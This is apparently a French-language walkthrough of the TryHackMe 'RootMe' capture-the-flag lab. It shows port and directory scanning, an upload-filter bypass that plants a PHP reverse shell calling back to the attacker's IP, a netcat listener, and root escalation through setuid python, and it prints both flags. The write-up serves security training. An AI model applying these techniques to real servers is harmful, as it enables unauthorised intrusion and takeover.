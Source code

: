 # RootMe #

## Task 1 Deploy the machine ##

**Deploy the machine**

Cliquez sur start Machine.   

## Task 2 Reconnaissance ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.126.80 rootme.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A rootme.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 13:29 CEST
Nmap scan report for rootme.thm (10.10.126.80)
Host is up (0.065s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/4%OT=22%CT=1%CU=33127%PV=Y%DS=2%DC=T%G=Y%TM=610A7A81
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.93 ms 10.9.0.1
2   51.94 ms rootme.thm (10.10.126.80)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.43 seconds

```

**Scan the machine, how many ports are open?**

D'après le scan Nmap on voit 2 services, donc 2 ports.   
Le service SSH sur le port 22.    
Le service HTTP sur le port 80.   

Réponse : 2       

**What version of Apache is running?**
D'après les informations sur le scan, la version d'Apache est 2.4.29.   

Réponse : 2.4.29

**What service is running on port 22?**

D'arpès le scan le service sur le port 22 est SSH.   

Réponse : SSH    

**Find directories on the web server using the GoBuster tool.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u rootme.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/css                  (Status: 301) [Size: 306] [--> http://rootme.thm/css/]
/index.php            (Status: 200) [Size: 616]                             
/js                   (Status: 301) [Size: 305] [--> http://rootme.thm/js/] 
/panel                (Status: 301) [Size: 308] [--> http://rootme.thm/panel/]
/server-status        (Status: 403) [Size: 275]                               
/uploads              (Status: 301) [Size: 310] [--> http://rootme.thm/uploads/]
```

**What is the hidden directory?**

D'arpès gobuster le répertoire caché est \/panel      

# Task 3 Getting a shell #

**user.txt**

![page1](./Task3-01.png)

A partir de cette page peut envoyer un reverse shell en php.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-04 13:48:53 URL:https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 

tim@kali:~/Bureau/tryhackme/write-up$ mv php-reverse-shell.php php-reverse-shell.phtml  
```

![page2](./Task3-02.png)

On télécharge un reverse shell en php.   
On configure la bonne IP.  
On renomme l'extension du fichier pour outrepasser la protection.   
On téléverse le reverse shell sur la machine de la victime.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

![page3](./Task3-03.png)

On écoute sur le bon port pour se connecter au shell.     
On lance le shell à partir du reverse shell qui se trouve dans /uploads

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.126.80] 42406
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:59:32 up 33 min,  0 users,  load average: 0.00, 0.00, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ find / -name user.txt 2>/dev/null
/var/www/user.txt

$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}

```

Sur le shell on cherche le fichier user.txt    
On lit le contenu de notre fichier.   

La réponse est : THM{y0u_g0t_a_sh3ll}      

**root.txt**

```bash
$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

On trouve que python est setuid.    

$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}

```

On crée un shell avec les droits root avec python.    
On lit le flag dans root.txt    

La réponse est : THM{pr1v1l3g3_3sc4l4t10n}    